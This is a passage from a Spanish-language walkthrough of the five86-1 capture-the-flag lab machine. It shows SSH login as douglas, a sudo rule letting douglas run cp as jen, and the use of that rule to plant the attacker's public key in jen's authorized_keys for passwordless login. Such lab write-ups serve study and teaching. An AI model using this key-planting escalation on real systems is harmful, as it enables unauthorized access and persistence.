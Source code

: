 Ahora si con la contraseña logramos entrar al directorio de ``/reports``
Entrando no encontre nada entonces intente entrar por el puerto 22 ssh

```
❯ ssh douglas@10.0.2.20
```
Ahora dentro de la maquina vemos que tenemos varios usuarios
```
douglas@five86-1:/home$ ls
douglas  jen  moss  richmond  roy
```
Lanzamos el comando ``sudo -l``
```
douglas@five86-1:~$ sudo -l
Matching Defaults entries for douglas on five86-1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User douglas may run the following commands on five86-1:
    (jen) NOPASSWD: /bin/cp
```

Ahora intentamos cambiar de usuario hacia jen

Ya que ``jen`` puede copiar sin password entonces copiamos nuestra clave publica
```
❯ cat /home/kali/.ssh/id_rsa.pub                    
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDpNaDYHFQg0lTIc1Uw5ix/\4byPKQO8yoeNRrNSGOHE8QER314ttRlB/V/\meQtokPQV9Q542XE4bhbRh7D3MA85TI/\FNuxHUNFNm5XttGPHSRzRoLW3h6YxzJedtNVeQ5r7xuRauiy1EWzW/\nzeCcFs2WCmO7SZPiNZKTiG3qVYwTMTem2ZK[...]
```

Luego las copiamos donde douglas

```
douglas@five86-1:~$ cat id_rsa_mine.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDpNaDYHFQg0lTIc1Uw5ix/4byPKQO8yoeNRrNSGOHE8QER314ttRlB/V/meQtokPQV9Q542XE4bhbRh7D3MA85TI/FNuxHUNFNm5XttGPHSRzRoLW3h6YxzJedtNVeQ5r7xuRauiy1EWzW/nzeCcFs2WCmO7SZPiNZKTiG3qVYwTMTem2ZK[...]
```

Las mandamos al temporal y las enviamos a los authorized_keys de jen

```
douglas@five86-1:~$ cp id_rsa_mine.pub /tmp
douglas@five86-1:~$ sudo -u jen cp /tmp/id_rsa_mine.pub /home/jen/.ssh/authorized_keys
```

Ahora en nuestra maquina entramos sin contrasena como el usuario jen 

```
❯ ssh jen@10.0.2.20             
[...]
You have new mail.
Last login: Thu Mar  2 11:26:27 2023 from 10.0.2.4
jen@five86-1:~$ 
```
